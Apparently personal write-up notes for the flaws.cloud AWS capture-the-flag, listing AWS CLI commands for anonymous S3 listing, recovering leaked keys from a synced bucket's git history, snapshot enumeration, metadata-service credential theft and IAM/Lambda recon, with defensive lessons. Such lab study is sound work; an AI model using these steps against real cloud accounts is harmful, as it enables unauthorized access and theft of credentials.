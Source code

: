  listed the objects in the bucket
 `aws s3api list-objects-v2 --bucket thebigiamchallenge-storage-9979f4b `

 aws s3 cp s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt - 


# Flaws.cloud Basic AWS s3 Misconfigurations CTF
### check if the site is gosted atatically on s3 bucket
```dig +nocmd flaws.cloud any +multiline +noall +answer ```

#### since the ip returned will be aws ip, hence it is an s3 bucket
another way to test will be to search http://<domainname>.s3.amazonaws.com/

## Level 1 - listing allowed on s3 Everyone
List bucket contents
``` aws s3 ls  s3://flaws.cloud/ --no-sign-request --region us-west-2 ```
  or if you are already authenticated then:
``` aws s3 ls  s3://flaws.cloud/ ```

 ## Level 2 - listing allowed on s3 Authenticated Users Only (IAM)
``` aws s3  ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud (need an account)```

## Level 3  S3 buckets git AWS secrets leakage
```aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/```
```aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ .```
```git log```
```git checkout f7cebc46b471ca9838a0bdd1074bb498a3f84c87```
```git diff f52ec03b227ea6094b04e43f475fb0126edb5a61 b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526```
 
```aws configure --profile flaws```
```aws --profile flaws s3 ls```

People often leak AWS keys and then try to cover up their mistakes without revoking the keys. You should always revoke any AWS keys (or any secrets) that could have been leaked or were misplaced. Roll your secrets early and often.

# Level 4 : EBS Snapshot Snarfing
Finding Snapshot
AWS allows you to make snapshots of EC2's and databases (RDS). The main purpose for that is to make backups, but people sometimes use snapshots to get access back to their own EC2's when they forget the passwords. This also allows attackers to get access to things. Snapshots are normally restricted to your own account, so a possible attack would be an attacker getting access to an AWS key that allows them to start/stop and do other things with EC2's and then uses that to snapshot an EC2 and spin up an EC2 with that volume in your environment to get access to it. Like all backups, you need to be cautious about protecting them.

# Mounting a snapshot
http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud/hint2.html

```aws --profile flaws  ec2 describe-snapshots --owner-id 975426262029```


# Level 5 Instance Profile Metadata Attack
On cloud services, including AWS, the IP 169.254.169.254 is magical. It's the metadata service.
There is an RFC on it (RFC-3927), but you should read the AWS specific docs on it https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html.

The IP address 169.254.169.254 is a magic IP in the cloud world. AWS, Azure, Google, DigitalOcean and others use this to allow cloud resources to find out metadata about themselves. Some, such as Google, have additional constraints on the requests, such as requiring it to use `Metadata-Flavor: Google` as an HTTP header and refusing requests with an `X-Forwarded-For` header. AWS has recently created a new IMDSv2 that requires special headers, a challenge and response, and other protections, but many AWS accounts may not have enforced it. If you can make any sort of HTTP request from an EC2 to that IP, you'll likely get back information the owner would prefer you not see.
Examples of this problem
Nicolas GrÃ©goire discovered that prezi allowed you point their servers at a URL to include as content in a slide, and this allowed you to point to 169.254.169.254 which provided the access key for the EC2 intance profile (link). He also found issues with access to that magic IP with Phabricator and Coinbase.
A similar problem to getting access to the IAM profile's access keys is access to the EC2's user-data, which people sometimes use to pass secrets to the EC2 such as API keys or credentials.
Avoiding this mistake
Ensure your applications do not allow access to 169.254.169.254 or any local and private IP ranges. Additionally, ensure that IAM roles are restricted as much as possible.
    
# Level 6  Read-Only Recon of API Gateway and Lambda 
```aws --profile level6 iam get-user```
```aws --profile level6 iam list-attached-user-policies --user-name Level6```
```aws --profile level6 iam get-policy  --policy-arn arn:aws:iam::975426262029:policy/list_apigateways```
```aws --profile level6 iam get-policy-version  --policy-arn arn:aws:iam::975426262029:policy/list_apigateways --version-id v4```
```aws --region us-west-2 --profile level6 lambda list-functions```
```aws --region us-west-2 --profile level6 lambda get-policy --function-name Level6```
```aws --profile level6 --region us-west-2 apigateway get-stages --rest-api-id "s33ppypa75"```
## Lesson learned
It is common to give people and entities read-only permissions such as the SecurityAudit policy. The ability to read your own and other's IAM policies can really help an attacker figure out what exists in your environment and look for weaknesses and mistakes.
Avoiding this mistake
Don't hand out any permissions liberally, even permissions that only let you read meta-data or know what your permissions are.


## Find S3 buckets for an organization
https://github.com/nahamsec/lazys3

## Gui brower for cloud storage
its a libre server
https://cyberduck.io/?l=en

## AWS Bounties report Hackerone
https://hackerone.com/reports/163476 - Information Disclosure Robotlegal
https://hackerone.com/reports/57505 - Shopify


 # Flaws
 1. opening list  permissions to "Everyone"
 2. open list permissions to "Any Authenticated AWS User"
